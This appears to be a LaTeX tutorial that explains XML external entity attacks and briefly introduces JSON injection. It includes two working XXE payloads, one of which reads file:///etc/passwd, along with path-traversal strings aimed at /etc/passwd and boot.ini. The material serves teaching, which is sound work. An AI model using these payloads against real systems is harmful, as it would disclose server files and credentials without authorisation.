 \documentclass{article}[12pt]
\newcommand{\q}[1]{\texttt{#1}}
\begin{document}
In an external entity attack, XML is injected or uploaded to the site in an effort to get the XML parser import the injected entity into the XML, then output the contents of the entity.
Let's look at the payload: \newline  \q{
<?xml version="1.0"?> \newline
<!DOCTYPE change-log [ \newline
<!ENTITY systemEntity SYSTEM "robots.txt"> \newline
]> \newline
<change-log> \newline
<text>\&systemEntity;</text> \newline
</change-log> \newline
}
In this case we begin with entity declatarion \q{!ENTITY} and give it the name \q{systemEntity}.
The type of entity is \q{SYSTEM} which means local (operating) system.
The path to local system file we would like to fetch is \q{/robots.txt}.
By tag \q{<change-log></change-log>} we embed the the robots.txt by \q{\&systemEntity} - this is a substitution.
In simple words: XML parser look up for the \q{systemEntity} SYSTEM variable, gabs the content of the file and substitutes the \q{\&systemEntity} entity declaration.


It is external entity because robots.txt is not a part of XML file.
On the other hand if there is no robot.txt file you might try something else including path traversaling.
For windows you may try \q{"../../../../../../boot.ini"} or classic \q{"../../../../../../etc/passwd"} - for FUN.
So for Linux distros try the following payload: \newline

\q{<?xml version="1.0" standalone="no" ?> \newline
<!DOCTYPE demo [<!ELEMENT demo (\#PCDATA)> \newline
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]> \newline
<a>\newline
<inject>\&xxe;</inject>\newline
</a>\newline}

\newpage
\subsection{JSON injection}
If page uses JSON to pass data which is later parsed and incorporated into the page and output is not properly encoded, it is possible to carefully craft an injection which will add extra data into the JSON without breaking the JSON syntax.
This extra data will be executed by the browser once the data is incorporated into the page.
Remember that there is no recipe how to inject the data.
Since you are injecting data to JSON file injection depends on file structure, number and type of nodes etc.
\end{document}
